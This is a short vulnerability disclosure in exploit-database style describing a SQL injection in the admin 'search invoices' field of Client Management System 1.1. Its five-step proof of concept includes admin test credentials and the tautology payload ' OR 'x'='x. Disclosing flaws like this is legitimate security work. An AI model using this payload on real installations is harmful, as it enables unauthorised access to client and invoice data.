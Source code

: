 EXP
---

    # Exploit Title: Client Management System 1.1 - 'Search' SQL Injection
    # Date: 14 June 2021
    # Exploit Author: BHAVESH KAUL
    # Vendor Homepage: https://phpgurukul.com
    # Software Link: https://phpgurukul.com/client-management-system-using-php-mysql/
    # Version: 1.1
    # Tested on: Server: XAMPP

    # Description #

    Client Management System 1.1 is vulnerable to SQL Injection in the admin panel 'search invoices' field because of insufficient user supplied data sanitization.

    # Proof of Concept (PoC) : Exploit #

    1) Goto: http://localhost/clientms/admin/index.php
    2) Login as admin using test credentials: admin/Test@123
    3) Goto: http://localhost/clientms/admin/search-invoices.php
    4) Enter the following payload in the search field: ' OR 'x'='x
    5) All results are showed instead of none ==> SQL Injection success